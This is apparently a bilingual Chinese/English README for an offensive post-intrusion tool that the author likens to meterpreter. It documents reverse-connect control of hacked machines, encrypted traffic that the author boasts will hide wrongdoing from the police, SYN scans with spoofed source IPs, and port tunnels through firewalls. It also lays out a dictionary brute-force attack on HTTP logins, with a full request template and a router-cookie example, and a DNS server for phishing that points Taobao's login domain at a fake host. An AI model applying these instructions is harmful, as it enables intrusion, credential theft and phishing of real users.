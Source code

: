 ﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
启动DNS 服务器 [dns server]<br/>
using:dns [run|start] | add %host% %ip% | delete %ip%<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
using:ip<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>


***

###在线破解  [About Online Crack]
>在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
>
>什么是表达式?
>
>表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
>
>本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
>
>crack 192.168.1.103 80
>
>然后会提示输入表达式
>
>input your crack express:
>
>输入数据包数据:
>POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
>Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
>Referer: http://192.168.1.103/api/analays.php<br/>
>Accept-Language: zh-CN<br/>
>User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
>Content-Type: application/x-www-form-urlencoded<br/>
>Accept-Encoding: gzip, deflate<br/>
>Host: 192.168.1.103<br/>
>Content-length: %length%<br/>
>Pragma: no-cache<br/>
><br/>
>__user=%username%&pass=%password%__<br/>
>
>其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
>
>input your check term:
>
>输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件..<br/>
>Success
>
>now cracking!
>
>__network crack - target:192.168.1.103:80<br/>
>username:root password:toor__
>
>破解完成
>
>
>表达式函数:
>
>__base64(%string%)__ -- 采用base64 编码<br/>
>__time()__ -- 获取系统时间<br/>
>__len(%string%)__ -- 统计字符串长度<br/>
>__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数<br/>
>
>Example :
>
>破解水星的数据包 (其它都差不多,关键在Cookie):
>
>Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__\r\n
>
>接下来会把%password% 先填充好之后再编码base64
>
>WARNING! 由于水平问题还做不出递归,请见谅 ..  
>


####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>


####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


***

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..